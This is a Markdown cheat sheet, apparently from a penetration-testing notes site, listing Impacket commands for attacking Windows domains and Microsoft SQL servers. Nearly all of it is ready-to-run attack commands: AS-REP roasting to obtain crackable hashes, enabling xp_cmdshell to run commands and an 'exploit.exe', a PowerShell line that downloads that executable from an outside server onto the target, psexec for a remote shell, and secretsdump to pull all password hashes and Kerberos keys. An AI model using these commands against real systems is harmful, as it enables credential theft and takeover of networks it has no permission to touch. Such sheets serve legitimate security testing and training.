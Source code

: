 ```yaml
---
title: Impacket
desc: Provides low level access to the packets. It also used to connect Microsoft SQL.
tags: [ActiveDirectory, ActiveRecon, MSSQL, Windows]
alts: [Bloodhound, Kerbrute, Mimikatz]
website:
render_with_liquid: false
---
```


```sh
impacket-netview -h
```

<br />

## impacket-GetNPUsers

Lists users and passwords is not required Kerberos pre auth. Used for ASREPRoasting.

```sh
# Get password (e.g. domain: 'example.local', username: 'admin')
impacket-GetNPUsers -dc-ip 10.0.0.1 -format hashcat example.local/admin
```

<br />

## impacket-mssqlclient

Establish an authenticated connection to Microsoft SQL.

```sh
impacket-mssqlclient -port 1433 DOMAIN/username:password@10.0.0.1 -windows-auth

# ------ Logged in ---------------------------------------------

SQL> enable_xp_cmdshell
SQL> disable_xp_cmdshell

# Execute commands
SQL> xp_cmdshell whoami
SQL> xp_cmdshell dir
SQL> xp_cmdshell .\exploit.exe
SQL> xp_cmdshell "powershell.exe pwd"
# Get files from external server
SQL> xp_cmdshell "powershell.exe wget -UseBasicParsing http://10.0.0.1:8000/exploit.exe -OutFile c:\\Users\Public\exploit.exe"
```

<br />

## impacket-psexec

Interactive shell on Windows host.

```sh
impacket-psexec username:password@10.0.0.1
```

<br />

## impacket-rpcdump

```sh
impacket-rpcdump -port 135 10.0.0.1
```

<br />

## impacket-secretsdump

Gets all password hashes.

```sh
# Basic
impacket-secretsdump example.local/username:password@10.0.0.1

# Only NTLM hashes and Kerberos keys
impacket-secretsdump -just-dc example.local/username:password@10.0.0.1

# Only NTLM hashes
impacket-secretsdump -just-dc-ntlm example.local/username:password@10.0.0.1
```